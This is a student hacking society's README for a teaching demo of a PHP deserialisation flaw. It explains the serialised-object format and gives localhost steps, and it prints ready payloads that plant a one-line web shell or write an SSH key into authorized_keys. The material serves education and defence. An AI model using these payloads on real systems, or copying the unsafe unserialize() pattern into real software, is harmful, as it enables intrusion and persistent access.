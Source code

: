 # Deserialisation-Demo

This is a demo of a simple PHP deserialisation vulnerability for [Sheffield Ethical Student Hackers](https://shefesh.com).

DISCLAIMER: We are an *ethical* hacking society, and this is for educational purposes only. Don't use it against a system unless you have explicit permission (this means don't use it against your demonstrator, too!) You can read our Code of Conduct [here](https://shefesh.com/downloads/SESH%20Code%20of%20Conduct.pdf).

## unsafe.php

This represents a simple web application that constructs a `SignupForm` object and writes to a file when the `__destruct` method is called. It accepts the GET parameter `username`, which it uses to write a username to a list of users who have signed up. It does this using the class' `parse_username` and `__destruct` functions.

## The Vulnerability

The class variables `$outfile` and `$username_string` are normally set by the `parse_username()` method. However, when a specially crafted `SignupForm` object with these variables already set is passed to the `username` GET parameter, it is deserialised and the `__destruct` method is automatically called. This skips the `parse_username()` method and overrides the variables, meaning their attacker-controlled values are used in the `file_put_contents` call.

The vulnerability only exists because untrusted data (i.e. user input) is passed directly to the `unserialize()` function. Remove this line, and the vulnerability is fixed. In fact, it's not even needed to make this program work - it is there just to teach about the mechanics of the vulnerability, but there may be situations where `unserialize()` may have a genuine use case (for example, if objects were serialized for more efficient storage). In this case, ensure that no untrusted data is allowed into the source of this deserialisation.

## generate-object.php

This is a recreation of the class being used on the web application, as could be created by an attacker with a 'whitebox' view of the web app's `unsafe.php` file.

It creates an instance of the class, with preset values that are used when the object is deserialised. The `$username_string` variable determines the contents that will be written to the file, and the `$outfile` variable determines the path (within the web server's directory). Change these to change the behaviour of your payload.

By default, the object looks like this:

`O:10:"SignupForm":2:{s:7:"outfile";s:10:"gotcha.txt";s:15:"username_string";s:25:"malicious stuff goes here";}`

The syntax is as follows:
- `O` tells us the type is an 'object'
- `10` tells us the character length of the class name `SignupForm`
- `2` tells us the number of variables within the object
- Within the curly brackets `{ }` are the object variables. They follow a similar structure, with each one having a type (`s` meaning 'string'), a variable name and length (`7:"outfile"`), and a value (a string (`s`), `10` characters long, called `"gotcha.txt"`). The variable names and values, and each pair thereof, are separated by semicolons `;`.

This will write the string "malicious stuff goes here" to the `gotcha.txt` file. Pretty harmless, but it should show you how the exploit works!

You can, of course, create these manually - but counting the length of a load of variable names is a pain and it's easy to make a syntax mistake!

## Triggering the Attack

A serialised object must be generated (see `generate-object.php`) and then passed to the `username` GET parameter. To test this locally, run your webserver:

`php -S localhost:5000`

Change your payload by editing the `$username_string` and `$outfile` variables in `generate-object.php`, then make a request to get your object:

`curl localhost:5000/generate-object.php`

Then make a request to the page, passing your object to the `username` GET parameter:

`localhost:5000/unsafe.php?username={SERIALISED OBJECT HERE}`

*Note:* If you use curl, bash may throw a fit at your curly brackets. It's easier to visit the URL in your browser instead.

For example:

`localhost:5000/unsafe.php?username=O:10:"SignupForm":2:{s:7:"outfile";s:10:"gotcha.txt";s:15:"username_string";s:25:"malicious stuff goes here";}`

The `gotcha.txt` file should now appear in the webserver directory!

*Another Note:* Remember, anything you put in your payload happens on *your* machine - if someone monitors your installation directory for naughty `.txt` files and you write something you shouldn't have, don't come crying to us.

## Exploit Payloads

Our example exploit writes something fairly harmless to `gotcha.txt`, demonstrating the vulnerability. However, there are lots of ways to exploit arbitrary file write, even within the constraints of the current directory. Here are a couple of examples:

### Write a Web Shell

This won't necessarily allow you to escalate priveleges, but it lets you perform more actions on the box besides writing to files. You will have the permissions of the user who is running the web server (don't run your web servers as root!)

Here's the serialised object for a cheeky one-line PHP shell:

`O:10:"SignupForm":2:{s:7:"outfile";s:7:"cmd.php";s:15:"username_string";s:29:"<?php system($_GET['cmd']);?>";}`

If you're editing the `$username_string` variable here, you may need to escape the `$` character as follows: `public $username_string = "<?php system(\$_GET['cmd']);?>";`

### Write an SSH key

The file location is limited by the `__DIR__` prefix. However, if for some ungodly reason this webserver was hosted in a user's home directory, a payload such as the following could write an SSH key to the `.ssh/authorized_keys` file. Like the above, this doesn't escalate your priveleges but grants you a more interactive shell.

Here's the object:

`O:10:"SignupForm":2:{s:7:"outfile";s:20:".ssh/authorized_keys";s:15:"username_string";s:20:"YOUR ID_RSA.pub HERE";}`

I shouldn't have to say this, but "YOUR ID_RSA.pub HERE" is not a valid SSH key. If you want this to work, make sure to replace it (ideally in the `generate-object.php` file itself, so it calculates the length for you)

## Acknowledgements

Thanks to a recent Hack the Box for the inspiration... I won't say which, as it's live! But now you know how this works, go out and find it and root it...
